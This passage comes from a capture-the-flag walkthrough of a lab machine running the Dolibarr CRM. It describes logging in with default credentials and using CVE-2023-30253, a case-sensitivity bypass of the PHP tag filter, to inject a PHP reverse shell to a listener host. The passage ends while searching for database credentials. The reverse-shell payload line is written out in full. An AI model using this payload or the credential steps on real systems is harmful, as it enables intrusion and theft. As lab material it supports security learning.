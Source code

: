 - We have found a possible sub-domain `crm.board.htb`
- In order to be able to access this virtual host, we need to change the `/etc/hosts` file

```bash
$ sudo echo "10.10.11.11 board.htb crm.board.htb" >> /etc/hosts
```

- Let's open `crm.board.htb` and we face a login page
- Trying default credentials `admin:admin` we successfully login as the admin
- However, it is a false admin. We do not have access to other informations in the site
- Despite this, we have access to two tabs, `Email Templates` and `Website`

---

## OBTAINING A REVERSE SHELL

- First let's access to the `Email Templates` tab
- We can try to create an email template by filling all fields
- After created a new email template, we see that it appears dynamically on the page
- We can try to use XXS, in one of the fields, like the `subject` but it will be detected
- Since it failed, we can try to go to website page
- Here, we can create a new website
- Reloading the session, and going to the website tab we can see our newly created website
- Here we can modify the content of the HTML page, which is just a dynamically PHP rendered page
- Hence, we can inject PHP code and obtain a reverse shell.
- However, trying to inject PHP using classical `<?php ?>` do not work.
- **CVE-2023-30253** shows us that Dolibarr 17.0.0 is vulnerable to case-sensitive PHP code
- This means that, if `<?php ?>` do not work, something like `<?PhP ?>` will work.
- At this point, set up the netcat listener and inject the classical PHP reverse shell

```php
<?PhP system("/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.6/1234 0>&1'"); ?>
```

- Now, we have an active reverse shell on the remote host
- At this point we are logged in as `www-data` on path `/var/www/html/crm.board.htb`
- First of all, we discover that there is a user named `larissa`
- Hence, we might attempt to obtain its password
- We can list all processes to see if there is something useful
- However, if we list all interfaces and ports that are opened we see the MySQL service running 

```bash
www-data@boardlight:~/html/crm.board.htb$ ss -tlp

State   Recv-Q  Send-Q     Local Address:Port       Peer Address:Port  Process  
LISTEN  0       151            127.0.0.1:mysql           0.0.0.0:*              
LISTEN  0       4096       127.0.0.53%lo:domain          0.0.0.0:*              
LISTEN  0       128              0.0.0.0:ssh             0.0.0.0:*              
LISTEN  0       70             127.0.0.1:33060           0.0.0.0:*              
LISTEN  0       511                    *:http                  *:*
```

- Now, how can we access to the database? we have no user or password
- We might try `admin:admin`, or other default credentials without success.
- However, according to the Dolibarr documentations, all the conf is in the `htdocs/conf/conf.php` folder
